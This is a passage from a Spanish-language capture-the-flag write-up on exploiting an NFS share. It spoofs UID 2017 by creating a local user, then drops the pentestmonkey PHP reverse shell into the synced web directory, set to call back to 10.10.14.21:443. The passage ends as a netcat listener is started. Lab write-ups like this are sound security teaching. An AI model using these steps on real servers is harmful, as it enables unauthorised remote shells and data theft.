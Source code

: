 ```
```
| Volume /var/www/html
|   access: Read NoLookup NoModify NoExtend NoDelete NoExecute
| PERMISSION  UID   GID  SIZE  TIME                 FILENAME
| rwxr-xr--   2017  33   4096  2023-04-06T00:40:01  .
| ??????????  ?     ?    ?     ?                    ..
| ??????????  ?     ?    ?     ?                    .htaccess
| ??????????  ?     ?    ?     ?                    css
| ??????????  ?     ?    ?     ?                    images
| ??????????  ?     ?    ?     ?                    index.html
| ??????????  ?     ?    ?     ?                    js
```
Es lo mismo de arriba, solo que el UID es 2017

Como extra, dentro dentro de la carpeta ```Documents``` de ```ross```, hay un archivo de un gestor de contraseñas que podriamos intentar crackear, pero les digo que no es por ahi

```
󰣇  c4rta /mnt/ross  tree      
.
├── Desktop
├── Documents
│   └── Passwords.kdbx ---> archivo de contraseñas
```

## Explotando NFS y flag de user

### Directorio /var/www/html

Como sabermos que solo vamos a tener acceso con un usuario con el UID 2017, podemos crear un usuario en muestra maquina y asignarle ese UID:

```
sudo useradd web
sudo usermod -u 2017 web
sudo groupmod -g 2017 web
```

Ahora inicamos sesion con ese usuario y ya podemos navegar entre ese directorio

Una vez dentro, tenemos archivos de un sitio web, ese sitio web corresponde al sitio web de la maquina, y asu vez, ese directorio que montamos esta sincronizado con el de la maquina, asi que lo que intentaremos es crear un archivo php que sea una reverse shell y luego acceder a ese recurso.

Usare la reverse shell de pentest monkey.

En el directorio /var/www/html creare un archivo llamado ```shell.php```, donde pegare la reverse shell y editare la IP Y puerto, de esta manera:

```
$ip = '10.10.14.21';  // CHANGE THIS
$port = 443; 
```

Ahora me pondre en escucha por netcat:

```
nc -nlvp 443